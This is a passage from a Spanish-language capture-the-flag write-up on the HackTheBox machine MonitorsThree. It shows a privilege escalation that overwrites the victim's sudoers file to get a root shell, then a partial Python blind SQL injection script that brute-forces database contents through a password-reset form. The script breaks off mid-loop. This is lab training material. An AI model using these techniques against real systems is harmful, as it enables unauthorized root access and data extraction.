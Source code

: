 Seguidamente seleccionamos nuestro "sudoers" malicioso:
![[Pasted image 20240827131550.png]]

Y lo guardamos en `/source/etc` que es el equivalente a al `/etc` de la máquina víctima:
![[Pasted image 20240827131702.png]]

Por lo que sobrescribirá el "sudoers" de la máquina víctima:
![[Pasted image 20240827131745.png]]

Y si mostramos los permisos del usuario "marcus" a nivel de *sudoers* en la máquina víctima ahora vemos:
![[Pasted image 20240827132243.png]]

Por lo que si ejecutamos `sudo bash` obtenemos una "bash" como *root*:
![[Pasted image 20240827132355.png]]

Por lo que finalmente podemos visualizar la última *flag* que se encuentra en `/root`:
![[Pasted image 20240827132439.png]]



## SQLi Python Script
```python
import sys, signal, requests, string, argparse, re
from pwn import *
from termcolor import colored

# Variables globales
URL = "http://monitorsthree.htb/forgot_password.php"
FILTER = "Successfully sent password reset request!"

def sig_handler(sig, frame):
    print(colored("\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)


def get_arguments():
    parser = argparse.ArgumentParser(description="SQL Injection - MonitorsThree")
    parser.add_argument("-d", "--database", required=False, dest="database", help="Indica la base de datos")
    parser.add_argument("-t", "--table", required=False, dest="table", help="Indica la tabla de la base de datos")
    parser.add_argument("-c", "--columns", required=False, dest="columns", help="Indica las columnas a extraer de la base de datos")
    args = parser.parse_args()
    return args.database, args.table, args.columns


def get_databases():
    global URL
    global FILTER
    characters = string.printable
    
    p1 = log.progress("Iniciando fuerza bruta para extraer bases de datos")
    p1.status("")
    p2 = log.progress("Probando carácteres")
    info = ""

    for pos in range(1, 500):
        found = False
        for char in characters:
```
